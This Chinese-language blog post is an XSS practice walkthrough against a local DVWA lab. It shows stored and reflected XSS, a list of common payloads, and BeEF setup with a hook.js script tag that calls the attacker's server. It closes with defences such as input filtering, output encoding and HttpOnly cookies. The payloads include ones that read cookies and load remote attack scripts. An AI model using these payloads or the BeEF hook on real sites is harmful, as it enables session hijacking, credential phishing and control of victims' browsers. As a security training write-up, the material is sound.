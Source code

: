 ```yaml
---
title: 记XSS漏洞操练
author: Pandaho
date: 2021-08-11 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-XSS/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



## 用知识的土壤来填埋这些坑洞

XSS跨站脚本攻击(Cross Site Scripting)攻击者往web页面里插入恶意script代码，当用户浏览该网页时，被嵌入在web页面script恶意脚本代码将被执行，从而达到恶意攻击用户的目的，xss攻击针对的是用户层面的攻击。

通过插入恶意的html，javascript脚本，来攻击网站，盗取用户Cookie、破坏页面结构、重定向到其它网站。

漏洞: 构造动态文档时，未进行正确的编码和转义。

所谓cookie就是用户身份凭证，所以在盗取了cookie之后，就可以在这个会话内通过这个cookie直接登录用户账户。

这里我们通过firefox演示一遍，打开dvwa登录后，在后台参数我们可以看到cookie的值

![图例](/assets/img/security-XSS/1.png)

我们将该值删除后再次访问会发现，没有cookie后被强制退出账户，再将值添加回去，访问恢复正常。

了解这些后我们开始xss的操练，进入XSS (Stored)，在插入框写入

`<script>alert(test)</script>`

执行后，该代码将永久插入前端中，后续用户每次点击该页面，该代码都会被执行，这便是存储型xss。

HTML ```<script> ``` 标签

定义和用法

`<script> 标签用于定义客户端脚本，比如 JavaScript。`

script 元素既可以包含脚本语句，也可以通过 src 属性指向外部脚本文件。

必需的 type 属性规定脚本的 MIME 类型。

JavaScript 的常见应用时图像操作、表单验证以及动态内容更新。

alert()可以用来简单而明了地将括号内的文本信息显示在对话框中，我们将它称为警示对话框，并且该对话框上包含一个“确认”按钮，用户阅读完所显示的信息后，只需单击该按钮就可以关闭对话框。

存储型xss又称持久性xss，攻击脚本将被永久地存在在目标服务器的数据库或文件中，具有很高的隐蔽性，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。

了解了存储型后我们尝试反射型xss，进入XSS (Reflected)，在url上构建代码

`http://192.168.80.128/vulnerabilities/xss_r/?name=<script>alert(test)</script>`

将代码再进行[短链接转换](https://www.ft12.com)后发给用户，用户只要访问url就会受到xss反射型攻击。

 反射型xss：非持久化xss，需要欺骗用户自己去点击链接才能触发xss代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

DOM型xss：不经过后端，DOM-xss漏洞是基于文档对象模型（Document Object Model）的一种漏洞，DOM-xss是通过url传入参数去控制触发的，其实也属于反射型xss。

```
常用的payload
<script>alert(1)</script> #最普通的xss
<script>alert(document.cookie)</script> #获取cookie
<a href="javascript:alert('xss')">xss</a> #a链接的xss
<script src='http://baidu.com/xss.js'></script> # 外部攻击代码
<img src=x onerror=alert(1)> #加载图形失败执行
<iframe onload=alert('xss')> #框架
<svg onload=alert(1)>
<video onloadstart=alert(1) src="/media/hack-the-planet.mp4" />
<body onload=alert(1)>
<style onload=alert(1)></style>
<input onmouseover=alert(1)>
```

了解完基础的xss操作后，再看下相关的工具使用。

BeEF，全称The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。 用Ruby语言开发的，用于实现对XSS漏洞的攻击和利用。

BeEF主要是往网页中插入一段名为hook.js的JS脚本代码，如果浏览器访问了有hook.js(钩子)的页面，就会被hook(勾住)，勾连的浏览器会执行初始代码返回一些信息，接着目标主机会每隔一段时间（默认为1秒）就会向BeEF服务器发送一个请求，询问是否有新的代码需要执行。BeEF服务器本质上就像一个Web应用，被分为前端和后端。前端会轮询后端是否有新的数据需要更新，同时前端也可以向后端发送指示， BeEF持有者可以通过浏览器来登录 BeEF 的后端，来控制前端(用户的浏览器)。BeEF一般和XSS漏洞结合使用。

```
sudo apt-get install beef-xss #安装
vim /usr/share/beef-xss/config.yaml   #配置beef
Beef-xss #启动
systemctl start beef-xss.service         #开启beef服务
systemctl stop beef-xss.service         #关闭beef服务
systemctl restart beef-xss.service      #重启beef服务

<script src='http://192.168.80.128:3000/hook.js'></script>   #构建好代码后，在dvwa进行xss攻击
回到beef-xss我们能看到主机已经被监控，选择主机，进入commands可选择各类命令进行攻击
Redirect Browser  网页重定向
Pretty Theft  登录弹窗伪造
```

绿色：适用于当前浏览器

橙色：适用于当前浏览器，但会被用户发现

灰色：不适应当前浏览器，可尝试使用。

由此可见XSS的危害是非常严重的：

针对用户：窃取cookie劫持会话、网络钓鱼、放马挖矿、广告刷流量

针对WEB服务：劫持后台、篡改页面、传播蠕虫、内网扫描

现在针对XSS防御的总体思路是：对输入（和url参数）进行过滤，对输出进行编码。过滤用户（客户端）提交的有害信息，从而达到防范XSS攻击的效果。

1、输入验证过滤：

简单来说，输入验证就是对用户提交的信息进行有效验证，仅接受指定长度范围内的，采用适当格式的内容提交，阻止或忽略除此之外的其他任何数据。

输入是否仅包含合法字符

输入字符串是否超过最大长度限制

输入如果为数字，数字是否在指定范围内

输入是否符合特殊格式要求

2、输出编码

HTML编码主要用对应的HTML实体替代字符。

黑白名单

不管采用输入过滤还是输出编码，都是针对数据信息进行黑/白名单式的过滤

3、防御DOM-XSS

避免客户端文档重写，重定向或其他敏感操作

4、HTTPonly防范劫持cookie

HTTPonly由微软最早提出，至今已经成为一个标准，浏览器将禁止页面的javascript访问带有HTTPonly属性的cookie。



## 参考来源

TI安全实验室  
[HTML详解](https://www.w3school.com.cn/h.asp)  
[BEEF详解](https://blog.csdn.net/weixin_53549425/article/details/119078739)  
